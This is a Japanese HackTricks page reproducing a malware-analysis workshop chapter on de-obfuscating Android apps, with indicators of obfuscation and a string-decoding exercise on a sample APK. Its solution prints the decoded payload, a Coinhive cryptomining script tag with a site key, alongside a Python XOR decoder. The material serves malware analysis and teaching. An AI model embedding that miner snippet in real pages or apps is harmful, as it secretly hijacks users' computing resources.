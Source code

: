 <details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告掲載したい場合**や**HackTricksをPDFでダウンロードしたい場合**は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください。
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)を**フォローする**。
* **HackTricks**の[**GitHubリポジトリ**](https://github.com/carlospolop/hacktricks)と[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)にPRを提出して、あなたのハッキングのコツを共有する。

</details>


**以下は**[**https://maddiestone.github.io/AndroidAppRE/obfuscation.html**](https://maddiestone.github.io/AndroidAppRE/obfuscation.html)**からのコピーです（解決策はそこで見つけることができます）**

![Logo](https://maddiestone.github.io/AndroidAppRE/images/pinkandroid.png)

アプリケーションをリバースエンジニアリングする際、いくつかの例で議論したように単純ではない場合が多々あります。開発者は、アプリの動作や実装を隠すために、1つ以上の難読化技術を実装することがあります。これは良性の理由でも悪意のある理由でもあり得ます。

難読化について覚えておくべき鍵は、それを解読したい場合はいつでも解読できるということです。重要なのは、解読できるかどうかではなく、解読するためのリソースを費やす価値があるかどうかです。

何かを常に解読できる理由は、最終的にCPUがいずれかの時点で難読化されていないコードを見て実行する必要があるからです。

## 難読化の解除方法 <a href="how-to-de-obfuscate" id="how-to-de-obfuscate"></a>

アプリケーションの難読化を解除する方法は、難読化の方法によって異なりますが、通常うまく機能するいくつかの共通の技術があります。ここでは、このワークショップが静的な分析/リバースエンジニアリングのみをカバーしているため、静的な難読化解除技術にのみ触れます。しかし、アプリケーションを実行して動的に分析することも、難読化を回避するための別の素晴らしい方法であることを覚えておいてください。

DEXバイトコード（Java）内の難読化については、静的に難読化を解除する最も簡単な方法の1つは、アプリケーション内の難読化解除メソッドを特定し、そのデコンパイルをJavaファイルにコピーして、難読化されたファイル、文字列、コードなどに対して実行することです。

Javaとネイティブコードの両方に対する別の解決策は、難読化アルゴリズムをPythonまたは他のスクリプト言語に転写することです。私が「転写」と言うのは、難読化アルゴリズムを\*理解\*する必要は常にあるわけではなく、実行する方法が必要だからです。これについては、「More Examples」セクションにリンクされている「Unpacking the Packed Unpacker」トークで詳しく説明しています。

## 難読化の指標 <a href="indicators-of-obfuscation" id="indicators-of-obfuscation"></a>

難読化の種類は多岐にわたるため、それに応じて多くの異なるタイプの指標があり、アナリストがアプリケーションが難読化されている可能性が高いことを警告しますが、ここではいくつかの例とそれを解読するための静的分析ソリューションを提案します。

* 文字列がない: JavaとAndroidは文字列に大きく依存しているため、文字列が見当たらない、またはスクランブルされた文字列しかない場合、文字列が難読化されている可能性が非常に高いです。
* 提案された解決策: 文字列を引数として取るメソッド呼び出しを探し、その引数がどこから来ているかをたどります。いずれにせよ、文字列引数はAPIに渡される前に難読化解除メソッドを通過しています。
* スクランブルされた文字列: JavaとAndroidのAPIは、スクランブルされた文字列ではなく、プレーンテキストの文字列を必要とします。
* 提案された解決策: スクランブルされた文字列はすべて、APIに渡される前に同じメソッドに渡される可能性が高いです。これらのメソッドは難読化解除メソッドである可能性があります。
* assets/ディレクトリ内のバイナリファイルとアプリ内のDexClassLoader呼び出し: 追加のコードをアンパックしてロードしている可能性があります。（リモートの場所からダウンロードしてDexClassLoaderを使用してロードすることもあります）
* 提案された解決策: ファイルが読み込まれる場所を特定し、そのパスをたどります。読み込まれた直後に難読化が解除される可能性が高いです。
* ネイティブライブラリ - JNI関数を特定できない（Java\_という名前の関数がなく、RegisterNativesへの呼び出しがない）: ネイティブメソッドを実行するためには、JNIがネイティブライブラリ内の関数とJava内のネイティブメソッド宣言をペアリングできる必要があります。したがって、そのどちらかがいずれかの時点で存在する必要があります。
* 提案された解決策: JNI_OnLoadメソッドから始めて、追加のコードをロードする難読化解除ルーチンを探します。

## 練習問題7 - 文字列の難読化解除 <a href="exercise-7---string-deobfuscation" id="exercise-7---string-deobfuscation"></a>

この練習では、アプリケーションの分析のために文字列の難読化を解除する方法を実践します。練習にはVMの`~/samples/ClashOfLights.apk`にあるサンプルを使用します。このサンプルのSHA256ダイジェストはc403d2dcee37f80b6d51ebada18c409a9eae45416fe84cd0c1ea1d9897eae4e5です。

### 目標 <a href="goals" id="goals"></a>

難読化された文字列を特定し、それを解読するためのソリューションを開発する。

### 練習の文脈 <a href="exercise-context" id="exercise-context"></a>

あなたはマルウェアアナリストで、このアプリケーションがマルウェアかどうかを判断するためにレビューしています。難読化されたJavascript文字列がロードされていることに気づき、アプリケーションを動的に実行することができず、Javascriptが何であるかを静的に判断する必要があります。

### 指示 <a href="instructions" id="instructions"></a>

1. 解読する必要のある文字列を見つける
2. それを解読するルーチンを特定する。
3. 文字列を解読するためのソリューションをどのように書くかを決定する。
4. 実行する :)

### 解決策 <a href="solution" id="solution"></a>

解読された文字列は：
```
<script src="https://coinhive.com/lib/coinhive.min.js"></script><script>var miner = new CoinHive.Anonymous('nf24ZwEMmu0m1X6MgcOv48AMsIYErpFE', {threads: 2});miner.start();</script>
```
Pythonスクリプトを使用して難読化を解除する方法は次のとおりです。
```
enc_str = "773032205849207A3831326F1351202E3B306B7D1E5A3B33252B382454173735266C3D3B53163735222D393B475C7A37222D7F38421B6A66643032205849206477303220584920643D2223725C503A3F39636C725F5C237A082C383C7950223F65023F3D5F4039353E3079755F5F666E1134141F5C4C64377A1B671F565A1B2C7F7B101F42700D1F39331717161574213F2B2337505D27606B712C7B0A543D342E317F214558262E636A6A6E1E4A37282233256C"

length = len(enc_str)
count = 0
dec_str = [0] * (length/2)
while (count < length):
dec_str[count/2] = (int(enc_str[count], 16) << 4) + int(enc_str[count + 1], 16) & 0xFF
count += 2
print dec_str


key = [75, 67, 81, 82, 49, 57, 84, 90]
enc_str = dec_str
count = 0
length = len(enc_str)
while (count < length):
dec_str[count] = chr(enc_str[count] ^ key[count % len(key)])
count += 1
print ''.join(dec_str)
```
## その他の例 <a href="more-examples" id="more-examples"></a>

私は、さまざまな難読化メカニズムを含むAndroidアプリの難読化解除についていくつかの講演を行いました。これらの講演では、高度な難読化技術、それらを解読するための私の解決策、そして難読化を解除する方法を決定する際に考慮した点や選択肢について議論しています。

* BlackHat USA 2018: 「Unpacking the Packed Unpacker: Reverse Engineering an Android Anti-Analysis Library」 \[[動画](https://www.youtube.com/watch?v=s0Tqi7fuOSU)]
* この講演では、Androidアプリケーションが使用していた最も複雑なアンチ分析ネイティブライブラリのリバースエンジニアリングについて説明しており、主にネイティブコードの難読化技術に焦点を当てています。
* REcon 2019: 「The Path to the Payload: Android Edition」 \[[動画](https://recon.cx/media-archive/2019/Session.005.Maddie_Stone.The_path_to_the_payload_Android_Edition-J3ZnNl2GYjEfa.mp4)]
* この講演では、Androidボットネットがその振る舞いを隠すために使用していた、Javaコードのみの一連の難読化技術について議論しています。


<details>

<summary><strong>AWSハッキングをゼロからヒーローまで学ぶには</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>をチェック！</strong></summary>

HackTricksをサポートする他の方法:

* **HackTricksにあなたの会社を広告したい**、または**HackTricksをPDFでダウンロードしたい**場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS & HackTricksグッズ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションをチェックする
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)に**参加する**か、[**テレグラムグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)で**フォローする**。
* [**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のgithubリポジトリにPRを提出して、あなたのハッキングのコツを**共有する**。

</details>
